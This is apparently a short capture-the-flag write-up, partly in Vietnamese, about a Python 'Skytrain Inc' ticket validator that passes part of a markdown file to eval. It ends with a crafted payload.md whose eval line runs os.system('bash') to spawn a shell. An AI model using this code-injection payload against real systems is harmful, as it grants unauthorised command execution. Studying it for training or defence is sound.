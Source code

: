 ```python

if validationNumber > 100:

return True

else:

return False

return False

def main():

fileName = input("Please enter the path to the ticket file.\n")

ticket = load_file(fileName)

#DEBUG print(ticket)

result = evaluate(ticket)

if (result):

print("Valid ticket.")

else:

print("Invalid ticket.")

ticket.close

main()
```

phân tích đoạn mã trên:

- kiểm tra đuôi tệp có kết thúc bằng .md
- xác minh một số tham số trong tệp
- Dòng đầu tiên cần bắt đầu “# Skytrain Inc”.
- Dòng thứ hai cần bắt đầu bằng “## Vé đến “ và có khoảng trắng sau đó.
- Dòng thứ ba cần bắt đầu bằng “__Ticket Code:__”.
- Dòng tiếp theo cần bắt đầu bằng “**”.
- Sau đó là một phép tính toán
- Nếu những điều kiện đó được đáp ứng thì nó sẽ được chuyển tới eval, điều này có thể cho phép thực thi mã.

tạo file payload.md với nội dung như sau:

```bash
# Skytrain Inc

## Ticket to

__Ticket Code:__

**11+eval('11+__import__("os").system("bash")')
```
